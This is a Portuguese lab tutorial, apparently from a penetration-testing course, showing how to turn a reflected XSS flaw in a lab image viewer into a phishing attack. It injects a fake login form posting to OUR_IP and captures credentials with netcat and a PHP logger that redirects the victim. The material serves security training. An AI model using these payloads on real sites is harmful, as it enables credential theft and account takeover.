

# Phishing

Outro tipo muito comum de ataque XSS é o ataque de phishing. Ataques de phishing normalmente utilizam informações que parecem legítimas para enganar as vítimas e levá-las a enviar informações sensíveis ao atacante. Uma forma comum de ataque de phishing por XSS consiste em injetar formulários falsos de login que enviam os dados de acesso ao servidor do atacante. Esses dados podem então ser utilizados para autenticar-se em nome da vítima e obter controle sobre sua conta e suas informações sensíveis.

Além disso, suponha que identifiquemos uma vulnerabilidade XSS em uma aplicação web de determinada organização. Nesse caso, podemos utilizar esse tipo de ataque em uma simulação de phishing, o que também ajudará a avaliar a conscientização de segurança dos funcionários da organização, especialmente se eles confiarem na aplicação web vulnerável e não esperarem que ela possa prejudicá-los.

## Descoberta de XSS

Começamos tentando encontrar a vulnerabilidade XSS na aplicação web em `/phishing`, disponível no servidor fornecido ao final desta seção. Ao visitarmos o site, vemos um visualizador de imagens online simples, no qual podemos inserir a URL de uma imagem para que ela seja exibida:

<a href="../img/xss15.png">
  
</a>

Esse tipo de visualizador de imagens é comum em fóruns online e aplicações web semelhantes. Como temos controle sobre a URL, podemos começar usando o payload XSS básico empregado anteriormente. Entretanto, quando tentamos esse payload, nada é executado e vemos o ícone de URL de imagem inválida:

<a href="../img/xss16.png">
  
</a>

Portanto, precisamos executar o processo de descoberta de XSS aprendido anteriormente para encontrar um payload que funcione. Antes de continuar, tente encontrar um payload XSS que execute código JavaScript com sucesso na página.

> **Dica:** para entender qual payload deverá funcionar, tente observar como sua entrada é exibida no código-fonte HTML depois de adicioná-la.

## Injeção de formulário de login

Depois de identificarmos um payload XSS funcional, podemos prosseguir para o ataque de phishing. Para realizar um ataque de phishing por XSS, devemos injetar código HTML que exiba um formulário de login na página alvo. Esse formulário deve enviar as informações de login para um servidor sob nossa escuta, de modo que, quando um usuário tentar entrar, receberemos suas credenciais.

Podemos encontrar facilmente código HTML para um formulário básico de login ou escrever nosso próprio formulário. O exemplo a seguir deverá apresentar um formulário de login:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

No código HTML acima, `OUR_IP` é o IP de nossa VM, que podemos encontrar com o comando `ip a` na interface `tun0`. Mais adiante, escutaremos nesse IP para receber as credenciais enviadas pelo formulário. O formulário de login deverá ter a seguinte aparência:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Em seguida, devemos preparar nosso código XSS e testá-lo no formulário vulnerável. Para escrever código HTML na página vulnerável, podemos usar a função JavaScript `document.write()` e inseri-la no payload XSS encontrado durante a etapa de descoberta. Depois de minificarmos o código HTML em uma única linha e o adicionarmos à função `write`, o código JavaScript final deverá ser:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Agora podemos injetar esse código JavaScript usando nosso payload XSS, isto é, no lugar do código JavaScript `alert(window.origin)`. Nesse caso, estamos explorando uma vulnerabilidade Reflected XSS, então podemos copiar a URL com nosso payload XSS em seus parâmetros, como fizemos na seção de Reflected XSS. Ao visitarmos a URL maliciosa, a página deverá ter a seguinte aparência:

<a href="../img/xss17.png">
  
</a>

## Limpeza da página

Podemos ver que o campo de URL continua sendo exibido, o que contradiz nossa mensagem “Please login to continue”. Portanto, para incentivar a vítima a usar o formulário de login, devemos remover o campo de URL, fazendo-a pensar que precisa entrar para utilizar a página. Para isso, podemos usar a função JavaScript `document.getElementById().remove()`.

Para descobrir o `id` do elemento HTML que queremos remover, podemos abrir o seletor do Page Inspector pressionando `CTRL+SHIFT+C` e clicar no elemento desejado:

<a href="../img/xss18.png">
  
</a>

Como vemos tanto no código-fonte quanto no texto exibido ao passar o cursor, o formulário de URL possui o `id` `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

Agora podemos usar esse `id` com a função `remove()` para remover o formulário de URL:

```javascript
document.getElementById('urlform').remove();
```

Ao adicionarmos esse código ao JavaScript anterior, depois da função `document.write`, poderemos usar o seguinte código atualizado em nosso payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Quando tentamos injetar o código JavaScript atualizado, vemos que o formulário de URL realmente deixa de ser exibido:

<a href="../img/xss19.png">
  
</a>

Também vemos que ainda resta uma parte do código HTML original depois do formulário de login injetado. Podemos removê-la simplesmente comentando-a, adicionando a abertura de um comentário HTML depois do payload XSS:

```html
...PAYLOAD... <!-- 
```

Como podemos ver, isso remove o trecho restante do código HTML original e nosso payload deverá estar pronto. Agora a página parece exigir legitimamente um login:

<a href="../img/xss20.png">
  
</a>

Agora podemos copiar a URL final, que deverá conter o payload completo, enviá-la às vítimas e tentar convencê-las a usar o formulário falso de login. Você pode visitar a URL para garantir que o formulário seja exibido conforme o esperado. Também tente efetuar login no formulário acima e veja o que acontece.

## Captura de credenciais

Finalmente, chegamos à etapa em que roubamos as credenciais quando a vítima tenta entrar por meio do formulário injetado. Se você tentou usar o formulário, provavelmente recebeu o erro `This site can’t be reached`. Isso acontece porque, como mencionado anteriormente, nosso formulário HTML foi criado para enviar a requisição de login ao nosso IP, que deverá estar escutando por uma conexão. Se não houver um serviço escutando, receberemos o erro de que o site não pode ser acessado.

Vamos iniciar um servidor Netcat simples e observar que tipo de requisição recebemos quando alguém tenta entrar pelo formulário. Para isso, podemos escutar na porta 80 de nossa Pwnbox:

```shellsession
JLMreal@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Agora, vamos tentar entrar com as credenciais `test:test` e verificar a saída do Netcat. Não se esqueça de substituir `OUR_IP` no payload XSS pelo seu IP real:

```shellsession
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

Como podemos ver, conseguimos capturar as credenciais na URL da requisição HTTP (`/?username=test&password=test`). Se qualquer vítima tentar entrar pelo formulário, receberemos suas credenciais.

Entretanto, como estamos apenas escutando com um listener Netcat, ele não tratará corretamente a requisição HTTP, e a vítima receberá um erro `Unable to connect`, o que poderá levantar suspeitas. Portanto, podemos utilizar um script PHP básico que registre as credenciais da requisição HTTP e redirecione a vítima de volta à página original, sem injeções. Nesse caso, ela poderá pensar que entrou com sucesso e utilizará o visualizador de imagens normalmente.

O script PHP a seguir realiza essa tarefa. Nós o escreveremos em um arquivo chamado `index.php` em `/tmp/tmpserver/`. Não se esqueça de substituir `SERVER_IP` pelo IP do exercício:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Agora que o arquivo `index.php` está pronto, podemos iniciar um servidor PHP que será usado no lugar do listener Netcat básico utilizado anteriormente:

```shellsession
JLMreal@htb[/htb]$ mkdir /tmp/tmpserver
JLMreal@htb[/htb]$ cd /tmp/tmpserver
JLMreal@htb[/htb]$ vi index.php #at this step we wrote our index.php file
JLMreal@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Vamos tentar entrar no formulário injetado e observar o resultado. Vemos que somos redirecionados à página original do visualizador de imagens:

<a href="../img/xss21.png">
  
</a>

Se verificarmos o arquivo `creds.txt` em nossa Pwnbox, veremos que as credenciais foram capturadas:

```shellsession
JLMreal@htb[/htb]$ cat creds.txt
Username: test | Password: test
```

Com tudo pronto, podemos iniciar nosso servidor PHP e enviar à vítima a URL que contém o payload XSS. Quando ela entrar pelo formulário, receberemos suas credenciais e poderemos usá-las para acessar sua conta.
